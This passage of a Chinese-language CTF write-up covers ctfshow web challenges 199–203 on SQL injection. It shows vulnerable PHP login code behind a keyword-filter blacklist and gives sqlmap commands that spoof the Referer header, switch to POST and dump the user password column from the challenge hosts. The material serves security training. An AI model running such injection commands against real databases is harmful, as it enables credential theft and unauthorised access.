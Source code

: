 ```php
  $sql = "select pass from ctfshow_user where username = {$username};";

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```
然并卵，同上
## web200（堆叠注入）
```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(|\,/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```
同上
## web201（sqlmap referer）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639205328367-52a2be30-3421-46d6-b1d0-36e77e0bfdae.png)
提示使用--referer绕过referer字段检查
payload：

```sql
sqlmap -u http://ccbeb5de-bb83-49ad-bb0c-3c3951b90561.challenge.ctf.show/api?id=1 --referer="http://ccbeb5de-bb83-49ad-bb0c-3c3951b90561.challenge.ctf.show/sqlmap.php" --batch -D ctfshow_web -T ctfshow_user -C pass --dump
```
## web202（sqlmap post）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639205851777-360226cc-82ca-40be-9db8-28c43338871a.png)
提示说变更请求方法，那应该就是id=1变为post方式
payload：

```sql
sqlmap -u http://89db3d5f-7b86-4646-829e-352b2bca63ab.challenge.ctf.show/api/ --data="id=1" --referer="http://89db3d5f-7b86-4646-829e-352b2bca63ab.challenge.ctf.show/sqlmap.php" --batch -D ctfshow_web -T ctfshow_user -C pass --dump
```
## web203（sqlmap --method）
> 使用--method 调整sqlmap的请求方式
